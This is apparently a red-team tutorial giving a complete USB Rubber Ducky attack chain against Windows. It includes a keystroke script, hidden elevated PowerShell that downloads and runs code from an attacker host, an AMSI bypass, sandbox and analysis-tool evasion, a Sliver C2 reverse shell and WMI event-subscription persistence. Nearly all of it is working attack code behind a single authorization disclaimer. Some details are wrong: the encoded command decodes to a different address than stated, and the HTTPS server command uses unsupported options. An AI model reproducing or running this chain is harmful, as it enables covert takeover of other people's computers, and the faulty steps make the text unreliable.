 # USB Rubber Ducky Reverse Shell Framework (Admin Shell + Persistence)

## ✨ Objective

Deliver a **stealthy reverse shell with persistence** using a **USB Rubber Ducky**, fully automated, with:

* **Administrator execution** of the payload
* **Sliver C2 for shell**
* **WMI Event Subscription** for persistence
* **AMSI bypass** + **sandbox detection** for stealth

> This guide is a step-by-step instruction set for red teamers or security professionals to simulate a real-world physical access scenario.

---

## ✅ Phase 0: Environment Setup

### Attacker (Kali Linux)

* IP: `192.168.1.40`
* Tools:

```bash
sudo apt update && sudo apt install python3 openssl
curl https://sliver.sh/install | sudo bash
```

### Target (Windows 10/11)

* Must be:

  * Unlocked
  * Connected to internet
  * Running as admin or UAC prompt will be triggered

### Hardware

* USB Rubber Ducky (classic or new gen)

---

## 🏡 Phase 1: Start the Sliver C2 Server

```bash
sliver-server
```

* This is your listener and implant generator.
* Sliver will bind to port `443` by default.

---

## 💡 Phase 2: Generate Sliver Payload

```bash
sliver > generate --http --name ducky_shell --lhost 192.168.1.40 --os windows
```

* Output: `ducky_shell.ps1`

```bash
mv ducky_shell.ps1 /var/www/html/
```

---

## 🔄 Phase 3: Create the Combo Script (Reverse Shell + Persistence)

> This PowerShell script will be fetched and executed by the Ducky. It does:
>
> * AMSI bypass
> * Sandbox detection
> * Launches a Sliver reverse shell
> * Deploys WMI persistence

### 📌 Important:

The following line contains your **base64-encoded reverse shell command**:

```powershell
$enc = "SQBFAFgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AMQAyADIALgAxADYAOAAuADEALgA0ADAALAA0ADQAMwAvAGQAdQBjAGsAeQBfAHMAaABlAGwAbAAuAHAAcwAxACcAKQApAA=="
```

This decodes to:

```powershell
IEX ((New-Object Net.WebClient).DownloadString('https://192.168.1.40:8443/ducky_shell.ps1'))
```

✅ **If you regenerate the Sliver payload or change the server path**, you must:

1. Update the above command string accordingly.
2. Re-encode it:

```bash
echo -n "IEX ((New-Object Net.WebClient).DownloadString('https://192.168.1.40:8443/NEWNAME.ps1'))" | iconv -t UTF-16LE | base64
```

3. Replace `$enc = "..."` with the new output.

Save this as: `/var/www/html/payload_combo.ps1`

```powershell
sET-ItEM ( 'VaRiaBlE:1q2') ([TyPe]("{0}{1}" -f'RUn','tiME')).GetField('Am'+'siInitFa'+'iled','NonPublic,Static').SetValue($null,$true)

function Is-Sandbox {
    $uptime = (Get-Date) - (gcim Win32_OperatingSystem).LastBootUpTime
    if ($uptime.TotalMinutes -lt 5) { return $true }
    $ram = (Get-CimInstance Win32_ComputerSystem).TotalPhysicalMemory
    if ($ram -lt 2GB) { return $true }
    $badProcs = @("vboxservice", "vmsrvc", "wireshark", "procmon", "fiddler", "vmtoolsd")
    $procs = Get-Process | Select-Object -ExpandProperty Name
    foreach ($p in $badProcs) { if ($procs -contains $p) { return $true } }
    return $false
}

Start-Sleep -Seconds 10
if (Is-Sandbox) { exit }

$enc = "SQBFAFgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AMQAyADIALgAxADYAOAAuADEALgA0ADAALAA0ADQAMwAvAGQAdQBjAGsAeQBfAHMAaABlAGwAbAAuAHAAcwAxACcAKQApAA=="
powershell -w hidden -enc $enc

Start-Sleep -Seconds 3

$Payload = "powershell -w hidden -enc $enc"
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
  Name = "WinLogonTrigger"
  EventNamespace = "root\\cimv2"
  QueryLanguage = "WQL"
  Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_ComputerSystem' AND TargetInstance.UserName != NULL"
}
$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
  Name = "PayloadConsumer"
  CommandLineTemplate = $Payload
  RunInteractively = $false
}
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
  Filter = $Filter
  Consumer = $Consumer
}
```

---

## 🔗 Phase 4: Encode Admin Launcher

### Command:

```powershell
Start-Process powershell -Verb runAs -ArgumentList "-w hidden -Command IEX(New-Object Net.WebClient).DownloadString('https://192.168.1.40:8443/payload_combo.ps1')"
```

### Encode:

```bash
echo -n "Start-Process powershell -Verb runAs -ArgumentList \"-w hidden -Command IEX(New-Object Net.WebClient).DownloadString('https://192.168.1.40:8443/payload_combo.ps1')\"" | iconv -t UTF-16LE | base64
```

Copy the output for the next step.

---

## 🕹️ Phase 5: Create Final Rubber Ducky Script

```duckyscript
DELAY 1000
GUI r
DELAY 300
STRING powershell -w hidden -enc <ENCODED_COMMAND_HERE>
ENTER
```

* Replace `<ENCODED_COMMAND_HERE>` with the output from Phase 4

---

## 🚀 Phase 6: Host Payloads with HTTPS Server

⚠️ Since Sliver uses port `443`, we'll use port `8443` for the Python server:

```bash
cd /var/www/html
openssl req -new -x509 -keyout cert.pem -out cert.pem -days 365 -nodes
sudo python3 -m http.server 8443 --bind 0.0.0.0 --directory . --certfile cert.pem --keyfile cert.pem
```

---

## 🌟 Phase 7: Live Deployment

1. Insert Rubber Ducky
2. PowerShell launches elevated prompt
3. Fetches and runs `payload_combo.ps1`
4. Reverse shell created (via Sliver)
5. WMI persistence deployed

---

## 🔧 Phase 8: Verify and Cleanup

### Verify WMI persistence:

```powershell
Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Name='WinLogonTrigger'"
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='PayloadConsumer'"
```

### Cleanup:

```powershell
Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Name='WinLogonTrigger'" | Remove-WmiObject
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='PayloadConsumer'" | Remove-WmiObject
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding | Where-Object { $_.Filter -like "*WinLogonTrigger*" -or $_.Consumer -like "*PayloadConsumer*" } | Remove-WmiObject
```

---

## ⚡ Summary

* Sliver handles shell & payload (on port 443)
* Python HTTPS server hosts payloads (on port 8443)
* Ducky delivers admin launch
* Persistence lives in WMI

This chain is:

* Fully automated
* Runs as Administrator
* Fileless (except transient memory fetch)
* AMSI-evading
* Sandbox-aware
* 100% Ducky deployable

> Use only in authorized testing environments. Always test, validate, and secure responsibly.

